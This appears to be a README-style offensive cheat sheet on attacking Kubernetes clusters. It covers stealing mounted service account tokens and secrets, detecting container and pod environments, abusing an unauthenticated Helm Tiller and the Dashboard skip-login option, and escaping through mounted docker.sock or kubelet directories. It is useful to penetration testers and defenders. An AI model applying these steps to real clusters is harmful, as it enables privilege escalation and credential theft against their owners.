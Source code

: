 # Attacker's guide to kubernetes

## General

Typical workflow:

Get cluster access (internal, RCE on container, etc)
⬇️
Check for serviceaccount and its privileges
⬇️
Scan for services and try to get other accounts
🔄
⬇️
Get admin account or an account with sufficient privileges
⬇️
Execute code on cluster/steal data

### ServiceAccount

By default on every container a "default service account" is mounted to dir `/run/secrets/kubernetes.io/serviceaccount`

By default it has no value, but admins may give it permissions, e.g Helm, Dashboard

Check if account can get secrets, so you can compromise other accounts with different privileges

---

How to distinguish account token/keys?

ServiceAccount can be in forms:

- CA certificate + JWT token (usually on containers, `Webhook` authn)
- CA certificate + client certificate + client key (usually in `.yaml` files as base64encoded strings, `TLS` authn)

With any form you can query `apiserver` by http with, e.g `curl`. See [notes](./NOTES.md) for second form usage examples, and k8s docs for `Webhook`.

## How to know we are in...

### Docker container

- `/.dockerenv`
- `/entrypoint.sh`,`/app-entrypoint.sh`
- strange hostname looking like hex string `de605c442545`
- PID 1 process is application process or small init system like `dumb-init`
- `cat /proc/self/cgroup` shows that we are in cgroup

  Example:

  ```
  root@de605c442545:/# cat /proc/self/cgroup
  12:cpuset:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  11:freezer:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  10:perf_event:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  9:rdma:/
  8:net_cls,net_prio:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  7:pids:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  6:memory:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  5:hugetlb:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  4:blkio:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  3:cpu,cpuacct:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  2:devices:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  1:name=systemd:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  0::/system.slice/docker.service
  ```

### K8s pod

- docker signs if it is CRI
- hostname like `<app-name>-[a-f0-9]{10}-[a-z0-9]{5}`

  Example: `tomcat-55c4cc5fcd-7l6x4`

- `cat /proc/self/cgroup` shows that we are in k8s

  Example:

  ```
  11:pids:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  10:cpuset:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  9:blkio:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  8:memory:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  7:hugetlb:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  6:perf_event:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  5:freezer:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  4:cpu,cpuacct:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  3:net_cls,net_prio:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  2:devices:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  1:name=systemd:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  ```

  But, there is an option that k8s controls cgroups via systemd

- run `mount`

  Example:

  ```
  ...
  cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (ro,nosuid,nodev,noexec,relatime,cpu,cpuacct)
  cgroup on /sys/fs/cgroup/blkio type cgroup (ro,nosuid,nodev,noexec,relatime,blkio)
  cgroup on /sys/fs/cgroup/memory type cgroup (ro,nosuid,nodev,noexec,relatime,memory)
  ...
  tmpfs on /run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)
  ```

## Addon attacks

Prerequisite:

- dns queries are not blocked
- no network policy blocking connection

### Helm

Given no TLS was configured you can use Helm as an admin

1. Download helm cli

```console
$ wget https://get.helm.sh/helm-v2.14.3-linux-amd64.tar.gz
$ tar xfv helm-v2.14.3-linux-amd64.tar.gz
```

2. Use helm

```console
$ ./helm --host tiller-deploy.kube-system.svc.cluster.local:44134
```

[Demo](./imgs/helm_pwn.svg)

### Dashboard

If **`cluster-admin` role** is given to dashboard serviceaccount and `--enable-skip-login` is set, then you can bypass login in kubernetes dashboard

1. Just go to `https://kubernetes-dashboard.kubernetes-dashboard.svc.cluster.local`
2. Click `skip` button

## Container attacks

Never forget about typical container(Docker) attacks:

- Mounted `docker.sock` => root on node
- Mounted `/var/lib/kubelet/` dir => kubelet account (get secrets, pods _by name_)
- Pod running on master => direct exposure to `etcd`
